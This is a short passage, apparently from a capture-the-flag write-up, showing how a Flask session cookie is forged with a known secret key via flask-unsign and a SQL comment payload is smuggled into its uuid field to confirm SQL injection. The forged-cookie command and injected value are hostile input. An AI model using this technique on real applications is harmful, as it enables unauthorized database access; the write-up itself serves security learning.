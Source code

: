 [![sql_proof_1](/img/spider/sql_proof_1.png)](/img/spider/sql_proof_1.png)

To proof this thesis we sign another cookie but this time fixing the query with a comment.

```js
$ flask-unsign --secret Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942 -s -c "{'cart_items': [], 'uuid': \"d9b910d5-3180-4274-a3e0-6d82e9fef789'-- -\"}"
eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6ImQ5YjkxMGQ1LTMxODAtNDI3NC1hM2UwLTZkODJlOWZlZjc4OSctLSAtIn0.YLOA6A.8vKtacty9swGa3RTHgMiRsR1yhg
```

This time the application doesn't error which confirms our suspicion and we can take further steps.

[![sql_proof_2](/img/spider/sql_proof_2.png)](/img/spider/sql_proof_2.png)
